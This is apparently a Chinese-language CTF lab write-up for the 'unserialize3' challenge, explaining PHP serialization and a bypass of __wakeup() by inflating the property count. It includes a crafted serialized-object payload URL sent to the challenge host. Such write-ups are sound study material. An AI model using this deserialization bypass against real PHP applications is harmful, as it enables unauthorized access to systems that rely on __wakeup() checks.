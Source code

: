 ## 0x09 unserialize3

<figure class="wp-block-image size-full">

<img loading="lazy" width="290" height="162" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/08/图片-108.png" alt="" class="wp-image-2653" /> </figure> 

__wakeup() 经常用在反序列化操作中，例如重新建立数据库连接，或执行其它初始化操作。实例化xctf类并对其使用序列化。

```php
<?php
class xctf{                      //定义一个名为xctf的类
public $flag = '111';            //定义一个公有的类属性$flag，值为111
public function __wakeup(){      //定义一个公有的类方法__wakeup()，输出bad requests后退出当前脚本
exit('bad requests');
}
}
$a = new xctf();          //使用new运算符来实例化该类（xctf）的对象为a
echo(serialize($a));      //输出被序列化的对象（a）
?>
```


运行结果`O:4:"xctf":1:{s:4:"flag";s:3:"111";}`

序列化返回的字符串格式：

<pre class="wp-block-code"><code>O:&lt;length&gt;:"&lt;class name&gt;":&lt;n&gt;:{&lt;field name 1&gt;&lt;field value 1&gt;...&lt;field name n&gt;&lt;field value n&gt;} </code></pre>

利用\_\_wakeup()函数漏洞原理：当序列化字符串表示对象属性个数的值大于真实个数的属性时就会跳过\_\_wakeup的执行。修改属性值<n>。构造`http://111.200.241.244:65392/?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}`<figure class="wp-block-image size-full">

<img loading="lazy" width="647" height="35" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/08/图片-109.png" alt="" class="wp-image-2656" /> </figure>
